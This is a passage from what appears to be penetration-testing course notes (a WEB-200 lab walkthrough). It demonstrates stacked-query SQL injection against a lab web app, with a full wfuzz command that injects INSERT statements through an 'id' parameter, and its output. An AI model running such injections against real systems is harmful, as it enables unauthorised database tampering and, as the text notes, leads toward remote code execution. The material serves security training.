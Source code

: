 Now that we have our wordlist, let's plan our payload. We need to insert an email address into an unknown table. The page responds with an HTTP 302 on a valid request and since we're stacking queries, we may not know which payload was successful. To account for this, let's insert the table name in the email column instead of a static value. The application should display the table name on the admin page in the list of subscriptions if the application processes our payload.

We'll use Wfuzz with two payloads again. This is our base SQL payload:\

```sql
insert into TABLE_NAME values('EMAIL_VALUE')
```
We want the same value placed as both the table name and the email value. For each field we want to fuzz, we need to include a payload. In both cases, we'll use the same wordlist, but we need Wfuzz to only iterate through the files once, sending the first values of both files on the first request, the second values on the second request, and so on. We can control how Wfuzz combines payloads by specifying an iterator.[2](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/finding-sql-injection-37060#fn-local_id_291-2)

We'll run wfuzz and set `-w tables.txt` twice, followed by `-m zip` to specify a zip iterator. Since the request requires authentication, we'll set -b followed by our `JSESSIONID` value, which we can find in Burp Suite. We'll add `-d ""` to send a POST request with an empty POST body and finally, specify our URL. Since the URL includes semicolons, we'll enclose it in double quotes.


```bash
wfuzz -w tables.txt -w tables.txt -m zip -b JSESSIONID=82909C3239ACEE2EBCCCD66CA4B4B2D2 -d "" "http://asio/admin/message/delete?id=4;insert+into+FUZZ+values('FUZ2Z')"
Target: http://asio/admin/message/delete?id=4;insert+into+FUZZ+values('FUZ2Z')
Total requests: 6

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                       
=====================================================================
000000005:   302        0 L      0 W        0 Ch        "newsletter_subscription - newsletter_subscription"                                           
000000003:   302        0 L      0 W        0 Ch        "subscription - subscription"                                                                 
000000001:   302        0 L      0 W        0 Ch        "newsletter - newsletter"                                                                     
000000004:   302        0 L      0 W        0 Ch        "subscriptions - subscriptions"                                                               
000000002:   302        0 L      0 W        0 Ch        "newsletters - newsletters"                                                                   
000000006:   302        0 L      0 W        0 Ch        "newsletter_subscriptions - newsletter_subscriptions" 
```

Wfuzz sent six requests and the application responded to all of them with an HTTP 302. We'll need to refresh the admin page in our browser to verify which payload worked.

![[Pasted image 20241108164320.png]]

Excellent. Our payload with "subscriptions" worked. We were able to correctly fuzz for a table name and verify the database executes stacked queries. In the next section, we'll use stacked queries and the information we've gathered to obtain remote code execution.
